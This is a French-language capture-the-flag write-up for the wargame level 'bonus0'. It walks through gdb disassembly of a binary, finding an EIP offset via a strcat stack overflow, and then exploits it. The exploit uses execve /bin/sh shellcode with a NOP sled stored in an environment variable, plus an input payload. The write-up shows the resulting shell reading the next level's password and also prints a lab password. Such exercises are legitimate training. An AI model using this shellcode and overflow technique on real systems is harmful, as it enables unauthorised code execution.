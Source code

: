 On se connecte sur le bonus0, ou se trouve un **binaire** <code>bonus0</code>.

On cherche a savoir ce que fait ce binaire:

```gdb
> gdb -q bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:     push   %ebp
   0x080485a5 <+1>:     mov    %esp,%ebp
   0x080485a7 <+3>:     and    $0xfffffff0,%esp
   0x080485aa <+6>:     sub    $0x40,%esp
   0x080485ad <+9>:     lea    0x16(%esp),%eax
   0x080485b1 <+13>:    mov    %eax,(%esp)
   0x080485b4 <+16>:    call   0x804851e <pp>
   0x080485b9 <+21>:    lea    0x16(%esp),%eax
   0x080485bd <+25>:    mov    %eax,(%esp)
   0x080485c0 <+28>:    call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:    mov    $0x0,%eax
   0x080485ca <+38>:    leave
   0x080485cb <+39>:    ret
End of assembler dump.
(gdb) > disas pp
Dump of assembler code for function pp:
   0x0804851e <+0>:     push   %ebp
   0x0804851f <+1>:     mov    %esp,%ebp
   0x08048521 <+3>:     push   %edi
   0x08048522 <+4>:     push   %ebx
   0x08048523 <+5>:     sub    $0x50,%esp
   0x08048526 <+8>:     movl   $0x80486a0,0x4(%esp)
   0x0804852e <+16>:    lea    -0x30(%ebp),%eax
   0x08048531 <+19>:    mov    %eax,(%esp)
   0x08048534 <+22>:    call   0x80484b4 <p>
   0x08048539 <+27>:    movl   $0x80486a0,0x4(%esp)
   0x08048541 <+35>:    lea    -0x1c(%ebp),%eax
   0x08048544 <+38>:    mov    %eax,(%esp)
   0x08048547 <+41>:    call   0x80484b4 <p>
   0x0804854c <+46>:    lea    -0x30(%ebp),%eax
   0x0804854f <+49>:    mov    %eax,0x4(%esp)
   0x08048553 <+53>:    mov    0x8(%ebp),%eax
   0x08048556 <+56>:    mov    %eax,(%esp)
   0x08048559 <+59>:    call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:    mov    $0x80486a4,%ebx
   0x08048563 <+69>:    mov    0x8(%ebp),%eax
   0x08048566 <+72>:    movl   $0xffffffff,-0x3c(%ebp)
   0x0804856d <+79>:    mov    %eax,%edx
   0x0804856f <+81>:    mov    $0x0,%eax
   0x08048574 <+86>:    mov    -0x3c(%ebp),%ecx
   0x08048577 <+89>:    mov    %edx,%edi
   0x08048579 <+91>:    repnz scas %es:(%edi),%al
   0x0804857b <+93>:    mov    %ecx,%eax
   0x0804857d <+95>:    not    %eax
   0x0804857f <+97>:    sub    $0x1,%eax
   0x08048582 <+100>:   add    0x8(%ebp),%eax
   0x08048585 <+103>:   movzwl (%ebx),%edx
   0x08048588 <+106>:   mov    %dx,(%eax)
   0x0804858b <+109>:   lea    -0x1c(%ebp),%eax
   0x0804858e <+112>:   mov    %eax,0x4(%esp)
   0x08048592 <+116>:   mov    0x8(%ebp),%eax
   0x08048595 <+119>:   mov    %eax,(%esp)
   0x08048598 <+122>:   call   0x8048390 <strcat@plt>
   0x0804859d <+127>:   add    $0x50,%esp
   0x080485a0 <+130>:   pop    %ebx
   0x080485a1 <+131>:   pop    %edi
   0x080485a2 <+132>:   pop    %ebp
   0x080485a3 <+133>:   ret
End of assembler dump.
(gdb) > disas p
Dump of assembler code for function p:
   0x080484b4 <+0>:     push   %ebp
   0x080484b5 <+1>:     mov    %esp,%ebp
   0x080484b7 <+3>:     sub    $0x1018,%esp
   0x080484bd <+9>:     mov    0xc(%ebp),%eax
   0x080484c0 <+12>:    mov    %eax,(%esp)
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:    movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:    lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:    mov    %eax,0x4(%esp)
   0x080484da <+38>:    movl   $0x0,(%esp)
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
   0x080484e6 <+50>:    movl   $0xa,0x4(%esp)
   0x080484ee <+58>:    lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:    mov    %eax,(%esp)
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:    movb   $0x0,(%eax)
   0x080484ff <+75>:    lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:    movl   $0x14,0x8(%esp)
   0x0804850d <+89>:    mov    %eax,0x4(%esp)
   0x08048511 <+93>:    mov    0x8(%ebp),%eax
   0x08048514 <+96>:    mov    %eax,(%esp)
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:   leave
   0x0804851d <+105>:   ret
End of assembler dump.
```

Après analyse du fichier (**source.c**), on se rend compte que l'exploitation du fichier se fera par la fonction **strcat**.

On cherche a obtenir le buffer dans le main, ce qui nous permettra de trouver l'offset : 

```gdb
(gdb) > b * 0x080485c0
Breakpoint 1 at 0x80485c0
(gdb) > run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAA
 -
ABCDEFGHIJKLMNOPQRSTUVW

Breakpoint 1, 0x080485c0 in main ()
(gdb) > ni
AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOPQRST ABCDEFGHIJKLMNOPQRST
0x080485c5 in main ()
(gdb) > i f
Stack level 0, frame at 0xbffff700:
 eip = 0x80485c5 in main; saved eip 0x4d4c4b4a
 Arglist at 0xbffff6f8, args:
 Locals at 0xbffff6f8, Previous frame's sp is 0xbffff700
 Saved registers:
  ebp at 0xbffff6f8, eip at 0xbffff6fc
```
Sur l'eip sauvegardée, on voit que l'adresse (en little indian) commence par notre 'J', qui correspond donc au 10em caractère de notre seconde chaine.

> On commence à écraser l'eip au 10em caractère, l'offset est donc de 9.

Nous allons devoir rajouter un shellcode car nous n'avons pas la place de faire un ret2libc dans le peu de mémoire qu'il nous reste (**20 - 9 = 11** alors que ret2libc nécessite 12 bytes).

On écrit un shellcode dans une variable d'environement accessible pour le programme, et on trouve son adresse grâce a un petit script en c :

```shell
export SHELLCODE=$(python -c "print '\x90'*100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x6
2\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")

echo "#include <stdio.h>
#include <stdlib.h>
int main(){ printf(\"SHELL= %p\n\", getenv(\"SHELLCODE\")); return 0; }" > /tmp/getsh.c

cd /tmp/
gcc getsh.c
./a.out
SHELL= \x\x\x\x
cd
```

Une fois l'adresse du shellcode dans l'environement trouvé, on peut appliquer la fonction suivante:   
<pre><code>python -c "print 'A' * 4095 + '\n' + 'B' * 9 + '\x\x\x\x' + 'B' * 7"</code></pre>

On ajoute A * 4095 + '\n' au premier argument pour pouvoir insérer le second argument, car la fonction **read** a un buffer de 4096, elle continuera donc de lire la suite des instructions dans stdin. Ce qui nous permet d'écrire nos deux arguments en une fois.  
Le '\n' permet de passer outre le strchr qui le transformera en '\0'.  
On mets 9 caractères au début du second argument pour arriver à la fin de l'offset et inserer à la suite notre shellcode.
On est obligé d'avoir au moins 7 caractères en plus pour le deuxième argument pour le **strchr**.

```shell
> (python -c "print 'A' * 4095 + '\n' + 'B' * 9 + '\x\x\x\x' + 'B' * 7"; cat) | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBB
whoami
bonus1
cd ../bonus1 && cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

For download :
<pre><code>scp -P4242 bonus0@IP:bonus0 .</code></pre>
> Password : f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728


